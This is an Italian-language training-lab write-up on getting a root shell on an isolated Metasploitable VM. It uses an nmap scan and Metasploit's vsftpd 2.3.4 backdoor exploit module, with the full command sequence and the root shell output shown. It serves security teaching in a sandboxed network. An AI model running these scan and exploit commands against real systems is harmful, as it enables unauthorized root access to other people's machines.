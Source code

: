 # Consegna S7/L1 - La fase di exploit: Gli attacchi alle Reti ⚛️

## Obiettivo 
L'obiettivo di questa esercitazione è stato **ottenere una shell come utente root** sulla macchina target **Metasploitable-Linux** sfruttando una vulnerabilità nel servizio FTP `vsftpd 2.3.4`.

## Configurazione della rete ⚖️

### Struttura delle macchine virtuali
1. **Kali Linux**:
   - **Interfaccia 1 (eth0)**: Bridged per accesso a **Internet**.
   - **Interfaccia 2 (eth1)**: Rete interna configurata su `192.168.50.2`.

2. **Metasploitable-Linux**:
   - **Interfaccia unica (eth0)**: Configurata nella **rete interna** con IP `192.168.50.3`.
   - **Nessun accesso a Internet** (isolamento per motivi di sicurezza).

### Verifica della connettività
Per assicurarci che le macchine siano nella stessa rete interna:
- **Kali ➞ Metasploitable**
   ```bash
   ping 192.168.50.3
   ```
   **Output atteso**: Risposta da `192.168.50.3` con successo.

- **Metasploitable ➞ Kali** (facoltativo):
   ```bash
   ping 192.168.50.2
   ```

## Scansione iniziale con Nmap 🔍
Una volta verificata la connettività, abbiamo eseguito una scansione rapida su Metasploitable per individuare i servizi attivi:

```bash
nmap -sV -p- 192.168.50.3
```

### Risultato della scansione
La scansione ha evidenziato la presenza del servizio FTP:
- **Porta 21**: FTP attivo con versione `vsftpd 2.3.4`

## Sfruttamento della vulnerabilità con Metasploit 🫠
### Caricamento dell'exploit
Utilizzando **Metasploit**, abbiamo selezionato l'exploit specifico per la vulnerabilità di `vsftpd 2.3.4`:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.50.3
set RPORT 21
run
```

### Esecuzione
L'exploit ha avuto successo, ottenendo una **shell** come utente **root** sulla macchina target.

**Output atteso:**
```bash
Command shell session opened
whoami
root
```

## Risultato finale 💪
L'obiettivo è stato raggiunto con successo:
- Abbiamo ottenuto una shell come **root** sulla macchina Metasploitable-Linux sfruttando il servizio FTP vulnerabile.
- La configurazione della rete interna ha garantito isolamento e sicurezza durante l'attacco.

### Considerazioni sulla sicurezza ⚠️
- La macchina target **Metasploitable** non deve avere accesso a Internet per evitare rischi di compromissione esterna.
- Kali Linux, grazie alla configurazione a doppia scheda di rete, ha mantenuto l'accesso sia alla rete interna che a Internet.

---

## Comandi chiave utilizzati 🛠️
1. **Scansione con Nmap**:
   ```bash
   nmap -sV -p- 192.168.50.3
   ```

2. **Metasploit - Caricamento exploit**:
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOST 192.168.50.3
   set RPORT 21
   run
   ```

3. **Verifica della shell**:
   ```bash
   whoami
   ```

![SuccessFTPExploit](./ShellFTPSuccess.png)

## Mission Success 🏆🚀
